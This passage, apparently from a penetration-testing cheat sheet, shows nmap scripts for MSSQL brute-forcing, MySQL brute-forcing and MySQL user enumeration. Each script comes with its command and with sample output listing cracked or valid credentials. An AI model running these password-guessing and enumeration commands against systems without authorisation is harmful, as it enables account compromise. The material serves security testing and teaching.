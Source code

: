      |PORT     STATE SERVICE REASON
     | ms-sql-brute:
     |   [192.168.100.128\TEST]
     |     No credentials found
     |     Warnings:
     |       sa: AccountLockedOut
     |   [192.168.100.128\PROD]
     |     Credentials found:
     |       webshop_reader:secret => Login Success
     |       testuser:secret1234 => PasswordMustChange
     |_      lordvader:secret1234 => Login Success



### MySQL - Brute-Force       

_Performs password guessing against MySQL_
     
```sh 
nmap --script=mysql-brute 192.168.1.12
```

     |PORT     STATE SERVICE REASON
     |3306/tcp open  mysql
     | mysql-brute:
     |   Accounts
     |     root:root - Valid credentials



### MySQL-enum                 

_Performs valid-user enumeration against MySQL server using a bug discovered and published by Kingcope (http://seclists_org/fulldisclosure/2012/Dec/9)_
     
```sh 
nmap --script=mysql-enum 192.168.1.12
```

     |PORT     STATE SERVICE REASON
     |3306/tcp open  mysql   syn-ack
     | mysql-enum:
     |   Accounts
     |     admin:<empty> - Valid credentials
     |     test:<empty> - Valid credentials
     |     test_mysql:<empty> - Valid credentials
     |   Statistics
     |_    Performed 11 guesses in 1 seconds, average tps: 11
